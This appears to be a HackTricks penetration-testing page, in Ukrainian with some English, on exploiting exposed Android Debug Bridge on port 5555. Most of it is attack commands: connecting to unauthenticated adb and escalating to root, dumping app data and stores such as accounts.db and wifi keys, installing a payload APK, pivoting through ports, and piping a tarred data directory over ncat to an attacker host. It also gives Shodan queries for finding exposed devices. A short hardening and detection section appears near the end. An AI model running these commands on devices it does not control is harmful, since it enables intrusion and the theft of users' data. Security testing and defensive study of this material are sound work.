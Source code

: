 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Основна інформація

З [документації](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) — це інструмент командного рядка для зв'язку з пристроями на базі Android та емуляторами. Типові дії включають встановлення пакетів, налагодження та отримання інтерактивної оболонки Unix на пристрої.

- Історичний стандартний TCP порт: 5555 (класичний режим "adb tcpip").
- Сучасне бездротове налагодження (Android 11+) використовує TLS-парування та виявлення сервісів mDNS. Порт підключення є динамічним і виявляється через mDNS; він може бути не 5555. Парування виконується за допомогою adb pair host:port, після чого слідує adb connect. Дивіться примітки нижче для наступних наслідків.

Приклад відбитка nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connect

Якщо ви виявите, що ADB відкритий і доступний, спробуйте швидко підключитися та перерахувати:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Якщо пристрій вимагає аутентифікацію ADB (ro.adb.secure=1), вам потрібно буде бути попередньо авторизованим (USB RSA auth) або використовувати бездротову налагодження Android 11+ (що вимагає одноразового коду, який відображається на пристрої).
- Деякі образи постачальників, інженерні/користувацькі збірки, емулятори, телевізори, STB та розробницькі набори відкривають adbd без аутентифікації або з adbd, що працює як root. У таких випадках ви зазвичай потрапляєте безпосередньо в оболонку або оболонку root.

Для загальної довідки по командам ADB, дивіться:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Швидке пост-експлуатаційне тестування

Якщо у вас є оболонка, перевірте привілеї та контекст SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Перерахунок та захоплення даних

- Список сторонніх додатків та шляхів:
```bash
pm list packages -3
pm path <pkg>
```
- Якщо у вас є root (adb root або su працює), ви можете отримати доступ до /data безпосередньо. Якщо ні, віддайте перевагу run-as для додатків, що підлягають налагодженню:
```bash
# Без root, для додатку, що підлягає налагодженню
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# З root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Корисні системні артефакти (потрібен root):
- /data/system/users/0/accounts.db та пов'язані дані AccountManager
- /data/misc/wifi/ (мережеві конфігурації/ключі на старіших версіях)
- Специфічні для додатка SQLite БД та shared_prefs під /data/data/<pkg>

Ви можете використовувати це для отримання чутливої інформації (наприклад, секретів додатка). Для приміток про розгляд даних Chrome дивіться питання, згадане [тут](https://github.com/carlospolop/hacktricks/issues/274).

### Виконання коду та доставка корисного навантаження

- Встановіть та автоматично надайте дозволи на виконання:
```bash
adb install -r -g payload.apk         # -g надає всі дозволи на виконання, оголошені в маніфесті
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Запускайте активності/сервіси/трансляції безпосередньо:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Переадресація портів та піводи

Навіть без root, adb може переадресовувати локальні порти на порти пристрою і навпаки. Це корисно для доступу до сервісів, прив'язаних локально на пристрої, або для відкриття сервісів атакуючого для пристрою.

- Переадресація host->device (доступ до локального сервісу пристрою з вашого хоста):
```bash
adb forward tcp:2222 tcp:22       # Якщо пристрій запускає SSH (наприклад, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Відкриття локального сервера налагодження додатку
```
- Зворотна переадресація device->host (дозволити пристрою досягати сервісу на вашому хості):
```bash
adb reverse tcp:1080 tcp:1080     # Додатки пристрою тепер можуть досягати host:1080 як 127.0.0.1:1080
```
- Екстракція файлів через сокети (без записів на sdcard):
```bash
# На хості: слухати
ncat -lvp 9000 > dump.tar
# На пристрої: надіслати каталог як tar (root або run-as за потреби)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Бездротове налагодження (Android 11+)

Сучасний Android реалізує захищене TLS бездротове налагодження з паруванням на стороні пристрою та виявленням mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notes
- Порти динамічні; не припускайте 5555. Імена служб mDNS виглядають так:
- _adb-tls-pairing._tcp (параметр)
- _adb-tls-connect._tcp (підключення з парою)
- _adb._tcp (старий/прямий)
- Якщо mDNS фільтрується, класичне USB-підтримуване увімкнення може все ще працювати на деяких збірках: `adb tcpip 5555`, а потім `adb connect <ip>:5555` (до перезавантаження).

Офensive implications: якщо ви можете взаємодіяти з інтерфейсом пристрою (наприклад, фізичний доступ або неправильна конфігурація мобільного MDM), щоб увімкнути бездротове налагодження та переглянути код пари, ви можете встановити довготривалий підключений ADB-канал без кабелю. Деякі OEM надають ADB через TCP в інженерних/розробницьких образах без пари — завжди перевіряйте.

## Hardening / Detection

Захисники повинні вважати, що будь-який досяжний adbd (TCP) є критичним ризиком.

- Вимкніть ADB та бездротове налагодження, коли це не потрібно. Відкличте авторизації USB-налагодження в параметрах розробника.
- Переконайтеся, що мережна політика блокує вхідний TCP/5555 та виявлення ADB на основі mDNS на ненадійних сегментах.
- На пристроях під вашим контролем:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # вимкнути прослуховування TCP (або використовуйте: adb usb)
stop adbd; start adbd             # перезапустити демон
```
- Моніторте записи mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` на корпоративних мережах та сповіщення про несподівані прослуховувачі 5555.
- Інвентаризація для небезпечних збірок: `getprop ro.debuggable`, `ro.build.type`, та `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
